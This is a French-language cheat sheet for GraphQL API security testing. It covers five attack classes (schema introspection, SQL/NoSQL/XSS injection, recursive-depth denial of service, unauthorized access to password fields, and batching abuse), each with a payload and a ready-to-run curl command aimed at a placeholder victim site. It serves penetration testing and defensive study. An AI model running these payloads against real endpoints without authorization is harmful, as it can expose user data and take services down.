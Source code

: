 # GraphQL API

1. Introspection excessive (exposition du schéma)  
   - Payload d’attaque neutre : `{"query":"{ __schema { types { name fields { name } } } }"}`  
   - Commande d’attaque : curl -X POST -H "Content-Type: application/json" -d '{"query":"{ __schema { types { name fields { name } } } }"}' https://site-victime.net/graphql  
   - Commande d’analyse : Observer la réponse pour voir si la structure complète du schéma GraphQL (types, champs, mutations, queries) est révélée  
   - Élément d’analyse : Vérifier si l’introspection est activée, ce qui permet à un attaquant de cartographier l’API et de préparer des attaques ciblées  
   - Méthodologie : Envoyer une requête d’introspection, analyser la structure retournée, et identifier les points d’entrée sensibles ou non documentés  
   - Source : https://www.invicti.com/blog/web-security/graphql-api-security-testing-introduction/

2. Injection GraphQL (ex : SQLi, NoSQLi, XSS)  
   - Payload d’attaque neutre : `{"query":"query { user(id: \"1 OR 1=1\") { id name } }"}`  
   - Commande d’attaque : curl -X POST -H "Content-Type: application/json" -d '{"query":"query { user(id: \"1 OR 1=1\") { id name } }"}' https://site-victime.net/graphql  
   - Commande d’analyse : Observer si la réponse retourne tous les utilisateurs ou si une erreur SQL apparaît, indiquant une injection possible  
   - Élément d’analyse : Détecter si les paramètres GraphQL ne sont pas filtrés avant d’être transmis à une base de données ou un backend, exposant à des injections SQL, NoSQL ou XSS  
   - Méthodologie : Injecter des payloads classiques (SQLi, NoSQLi, XSS) dans les variables ou champs GraphQL, observer les réponses et erreurs, puis affiner l’attaque  
   - Source : https://inigo.io/blog/graphql_injection_attacks

3. Déni de service par requête récursive/profondeur excessive  
   - Payload d’attaque neutre : `{"query":"{ user { posts { author { posts { author { posts { id } } } } } } }"}`  
   - Commande d’attaque : curl -X POST -H "Content-Type: application/json" -d '{"query":"{ user { posts { author { posts { author { posts { id } } } } } } }"}' https://site-victime.net/graphql  
   - Commande d’analyse : Observer si le serveur ralentit, retourne une erreur 500, ou devient inaccessible  
   - Élément d’analyse : Vérifier si l’API limite la profondeur et la complexité des requêtes, sinon un attaquant peut provoquer un DoS en générant des requêtes récursives lourdes  
   - Méthodologie : Envoyer des requêtes de profondeur croissante, surveiller les temps de réponse et la stabilité du serveur, et identifier l’absence de limitation  
   - Source : https://www.vaadata.com/blog/graphql-api-vulnerabilities-common-attacks-and-security-tips/

4. Accès non autorisé à des champs ou mutations sensibles  
   - Payload d’attaque neutre : `{"query":"{ allUsers { id email password } }"}`  
   - Commande d’attaque : curl -X POST -H "Content-Type: application/json" -d '{"query":"{ allUsers { id email password } }"}' https://site-victime.net/graphql  
   - Commande d’analyse : Vérifier si des informations sensibles (emails, mots de passe, tokens) sont retournées sans contrôle d’accès strict  
   - Élément d’analyse : Détecter l’absence de contrôle d’autorisation sur certains champs ou mutations, permettant l’accès à des données confidentielles  
   - Méthodologie : Lister les champs/mutations via introspection, tenter de les requêter sans privilège, observer les réponses et affiner selon les droits obtenus  
   - Source : https://www.invicti.com/blog/web-security/graphql-api-security-testing-introduction/

5. Batching et abus de requêtes multiples  
   - Payload d’attaque neutre : `[{ "query":"{ me { id } }" }, { "query":"{ allUsers { id } }" }]`  
   - Commande d’attaque : curl -X POST -H "Content-Type: application/json" -d '[{ "query":"{ me { id } }" }, { "query":"{ allUsers { id } }" }]' https://site-victime.net/graphql  
   - Commande d’analyse : Vérifier si plusieurs requêtes sont traitées dans un seul appel et si cela permet de contourner des limitations ou d’accélérer l’exfiltration de données  
   - Élément d’analyse : Détecter l’absence de limitation sur le nombre de requêtes par appel, permettant abus, DoS ou exfiltration rapide  
   - Méthodologie : Envoyer des requêtes batchées de plus en plus volumineuses, observer le comportement du serveur et la quantité de données retournées  
   - Source : https://www.f5.com/pdf/solution-overview/f5-securing-graphql-apis-with-big-ip-advanced-waf-solution-overview.pdf

---


